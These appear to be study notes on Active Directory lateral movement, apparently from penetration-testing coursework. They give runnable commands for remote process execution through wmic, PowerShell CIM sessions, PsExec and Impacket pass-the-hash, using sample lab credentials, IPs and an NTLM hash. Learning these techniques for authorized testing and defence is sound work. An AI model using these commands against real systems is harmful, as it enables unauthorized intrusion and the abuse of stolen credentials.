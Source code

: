 # Active Directory Lateral Movement

- <https://attack.mitre.org/tactics/TA0008/>

These techniques may use the current valid account or reuse authentication material such as password hashes, Kerberos Otickets, and application access tokens obtained from the previous attack stages.




## WMI and WinRM
Windows Management Instrumentation is an object-oriented feature that facilitates task automation.

The `wmic` utility has been recently deprecated.

We need credentials of a member of the Administrators local group, which can also be a domain user.



```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```



### Using PowerShell
Translating this attack into PowerShell syntax requires a few extra details.

First, We need to create a `PSCredential` object that will store our session username and password.

To do that, we will first store the username and password in variables.

Then, we will secure the password via the `ConvertTo-SecureString` cmdlet. 

Finally, we'll create a new `PSCredential` object with the username variable and `secureString` object.


```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
- <https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.4>

Now that we have our `PSCredential` object, we need to create a Common Information Model (CIM) via the `New-CimSession` cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the `New-CimSessionOption` cmdlet on the first line. On the second line, we'll create the new session, `New-Cimsession` against our target IP, using `-ComputerName` and supply the `PSCredential` object (-Credential $credential) along with the session options (-SessionOption $Options). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.214.72 -Credential $credential -SessionOption $Options
$command = 'calc';
```

As a final step, we need to tie together all the arguments we configured previously by issuing the `Invoke-CimMethod` cmdlet and supplying `Win32_Process` to the ClassName and Create to the MethodName. To send the argument, we wrap them in `@{CommandLine =$Command}`.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```











## PsExec
Part of SysInternals.

It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.





3 requisites must be met.

1. the user that authenticates to the target machine needs to be part of the Administrators local group
2. the ADMIN$ share must be available
3. File and Printer Sharing has to be turned on

Luckily for us, the last two requirements are already met as they are the default settings on modern Windows Server systems.






To execute the command remotely, PsExec performs the following tasks:

- Writes psexesvc.exe into the C:\Windows directory
- Creates and spawns a service on the remote host
- Runs the requested program/command as a child process of psexesvc.exe



```
PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```












## Pash the Hash (PtH)

Authenticate to a remote system or service using a user's NTLM hash instead of the user's plaintext password.
(This will only work for servers or services using NTLM authentication, not for servers or services using Kerberos)

- PsExec from Metasploit
- Passing-the-hash toolkit (<https://github.com/byt3bl33d3r/pth-toolkit>)
- Impacket





Most tools that are built to abuse PtH can be leveraged to start a Windows service (for example, cmd.exe or an instance of PowerShell) and communicate with it using Named Pipes. This is done using the Service Control Manager API.

Unless we want to gain remote code execution, PtH does not need to create a Windows service for any other usage, such as accessing an SMB share.


Same requisites as PsExec.




### Impacket

```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.220.73
```



If the target was sitting behind a network that was only reachable through our initial compromised access, we could perform this very same attack by pivoting and proxying through the first host






## Overpass the Hash
With overpass the hash, we can "over" abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).





